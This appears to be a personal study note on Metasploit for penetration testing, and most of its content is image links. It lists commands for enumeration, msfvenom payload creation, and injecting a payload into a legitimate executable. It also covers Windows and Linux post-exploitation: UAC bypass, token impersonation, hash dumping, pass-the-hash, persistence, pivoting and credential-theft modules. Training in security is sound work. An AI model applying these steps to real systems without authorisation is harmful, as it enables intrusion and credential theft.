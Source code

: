 ![[Pasted image 20230927162802.png]]
![[Pasted image 20230927163128.png]]
![[Pasted image 20230927163212.png]]
## Overview :
![[Pasted image 20230927163555.png]]![[Pasted image 20230927164042.png]]![[Pasted image 20230927164259.png]]
![[Pasted image 20230927164702.png]]![[Pasted image 20230927215157.png]]![[Pasted image 20230927220929.png]]
![[Pasted image 20230927221207.png]]
![[Pasted image 20230927221402.png]]![[Pasted image 20230927221414.png]]![[Pasted image 20230927221602.png]]![[Pasted image 20230927221618.png]]![[Pasted image 20230927223043.png]]
![[Pasted image 20230927223118.png]]
![[Pasted image 20230927223400.png]]
![[Pasted image 20230927223425.png]]

## Fundamentals :
![[Pasted image 20230927224103.png]]![[Pasted image 20230928220107.png]]
![[Pasted image 20230928220213.png]]
![[Pasted image 20230928220342.png]]
![[Pasted image 20230930150258.png]]
- Show Workspaces help using : `workspace -h`
## Information gathering & Enumeration
![[Pasted image 20230930180648.png]]
- To import Nmap scan results into Metasploit we need to output scan in XML format using the      `-oX [oFilename]` flag
- Once the file exported follow these steps:
	- When in metasploit do `db_status`
	- Then check if you are in the right #workspace 
	- To do the import simply use the command `db_import [/path/to/file.xml]`
	- Check if all is imported do `hosts`
	- Based on your import use `services` to check services from scan
![[Pasted image 20230930184517.png]]
![[Pasted image 20230930233437.png]]

### Enumeration :
**Internal scans :**
	- To scan an internal network that is not exposed to the internet, basically add the rode to metasploit so you can run auxiliary scan module : `run autoroute -s [IternalhostIP]`
	- Then to scan the ports on the internal NET search for `portscan` in auxiliary modules, select the appropriate auxiliary
**FTP Enumeration :**
	![[Pasted image 20231003222228.png]]
**SMB enumeration :** 
	![[Pasted image 20231006224835.png]]
	- Just search what you want to do in metasploit using filters
**HTTP Enumeration :**
	![[Pasted image 20231007140445.png]]
	Useful modules : 
	- auxiliary/scanner/http/apache_userdir_enum
	- auxiliary/scanner/http/brute_dirs
	- auxiliary/scanner/http/dir_scanner
	- auxiliary/scanner/http/dir_listing
	- auxiliary/scanner/http/http_put
	- auxiliary/scanner/http/files_dir
	- auxiliary/scanner/http/http_login
	- auxiliary/scanner/http/http_header
	- auxiliary/scanner/http/http_version
	- auxiliary/scanner/http/robots_txt
**MySQL enumeration :**
	![[Pasted image 20231007153858.png]]
	- Check the MySQL version using the `auxiliairy/scanner/mysql/mysql_version` module.
	- To run bruteforce on MySQL use `auxiliary/scanner/mysql/mysql_login` 
	- To send sql querys to target use : `auxiliary/admin/mysql/mysql_sql`
**SSH Enumeration :**
	![[Pasted image 20231008003215.png]]
**SMTP Enumeration :**
	![[Screenshot from 2023-10-08 02-28-34 1.png]]



## Vulnerability scanning :
![[Pasted image 20231008114533.png]]
- DB Autopwn
![[Pasted image 20231008120818.png]]
**WMAP Webapp vulnerability scanning :**
	![[Pasted image 20231008203952.png]]
	- First add the target site to the database, using `wmap_sites -t` 
	- Next simply list if it added correctly using `wmap_sites -l` you should see an Id, the host IP and other specifications like protocol and port used.
	- Then list the modules loaded and ready to be used by typing this command : `wmap_run -t`
	- Finally to launch the scan use : `wmap_run -e` and to show found vulnerabilities (at the end of the scanning phase) use `wmap_vulns -l`


## Payloads :
![[Pasted image 20231010140329.png]]
**How to generate a payload :**
	Here, we are gonna use the `msfvenom` tool, that comes pre-packed with Kali Linux.
	- List the payload using : `msfvenom --list payloads`
	- Create a payload using : `msfvenom -a [Arch] -p [payload] LHOST=[attacker machine] LPORT=[Local port] -f [filetype] -o [path so save file]`
![[Pasted image 20231011001728.png]]
![[Pasted image 20231011002014.png]]
**Inject payload into legit portable executable :**
	Use the `-x` option, to supply your template.
	Set the `-k` flag if you want to keep the original functionality of the executable.
![[Pasted image 20231011153313.png]]


## Windows exploitation :
![[Pasted image 20231011155013.png]]
![[Pasted image 20231011163240.png]]![[Pasted image 20231011163419.png]]
![[Pasted image 20231011210727.png]]
![[Pasted image 20231011210755.png]]
![[Pasted image 20231012232108.png]]
![[Pasted image 20231012233433.png]]
![[Pasted image 20231012235313.png]]
![[Pasted image 20231013174639.png]]

## Post exploitation :
![[Pasted image 20231013235352.png]]
![[Pasted image 20231013235639.png]]
![[Pasted image 20231015090947.png]]
## Windows POST exploitation :
- Enumeration (local) :
	- Try to upgrade to `NT AUTHORITY / SYSTEM` : `getsystem` 
	- Show who are you : `getuid`
	- 
	- `exploit/windows/http/rejetto_hfs_exec`: Allows unauthorized command execution on the target system through the Rejetto HTTP File Server.
	- `post/windows/gather/win_privs`: Enumerates user privileges, including admin status and UAC settings.
	- `post/windows/gather/enum_logged_on_users`: Lists logged-on users and their SIDs.
	- `post/windows/gather/checkvm`: Checks if the target is a virtual machine.
	- `post/windows/gather/enum_applications`: Lists installed applications.
	- `post/windows/gather/enum_av_excluded`: Identifies excluded paths for Windows Defender.
	- `post/windows/gather/enum_computers`: Lists LAN-connected computers.
	- `post/windows/gather/enum_shares`: Enumerates network shares.
- Bypassing UAC (User Account Control) :
	![[Pasted image 20231015173347.png]]
	- `exploit/windows/local/bypassuac_injection` :  This exploit can help you set the UAC flag to your meterpreter session, so you can be NT AUTHORITY \\ SYSTEM
- Token Impersonation using Incognito :
	![[Pasted image 20231015181918.png]]
	![[Pasted image 20231015222441.png]]
	![[Pasted image 20231021120819.png]]
	![[Pasted image 20231021121140.png]]
	- First load Incognito using `load incognito`
	- List available tokens using : `list_tokens -u`
	- Impersonate token using : `impersonate_token "DelegationToken/Name"`
	- Make sure that you are on a privileged service !
- Dumping hashes with Mimikatz :
	![[Pasted image 20231021122509.png]]
	- Load kiwi
	- help menu
- Pass the hash with PsExec :
	![[Pasted image 20231021123605.png]]
	use the `exploit/windows/smb/psexec` and set the smbpass to the hash
- Persistance :
	![[Pasted image 20231021130837.png]]
	use persistance auxiliary modules
- Pivoting :
	  ![[Pasted image 20231017002301.png]]
	  To pivot easily in a network, just use `run autoroute -s [ip.ip.ip.0/subnet]`
	  You can only scan the pivoted-to ip in metasploit.
	  To scan redirect a port to your hast so you can scan it externally use : 
	  `portfwd add -l [localport] -p [remoteport] -r [rhost]`
## But it's Linux :
- Useful asf Modules :
	```msfconsoleRC
	- post/linux/gather/enum_configs
	- post/multi/gather/env
	- post/linux/gather/enum_network
	- post/linux/gather/enum_protections
	- post/linux/gather/enum_system
	- post/linux/gather/checkcontainer
	- post/linux/gather/checkvm
	- post/linux/gather/enum_users_history
	- post/multi/manage/system_session
	- post/linux/manage/download_exec
	```
- PrivEsc Linux :
	 ![[Pasted image 20231021171102.png]]
- Hash Dumping :
	![[Pasted image 20231021175308.png]]
	```metasploitRC
	- post/multi/gather/ssh_creds
	- post/multi/gather/docker_creds
	- post/linux/gather/hashdump
	- post/linux/gather/ecryptfs_creds
	- post/linux/gather/enum_psk
	- post/linux/gather/enum_xchat
	- post/linux/gather/phpmyadmin_credsteal
	- post/linux/gather/pptpd_chap_secrets
	- post/linux/manage/sshkey_persistence
	```

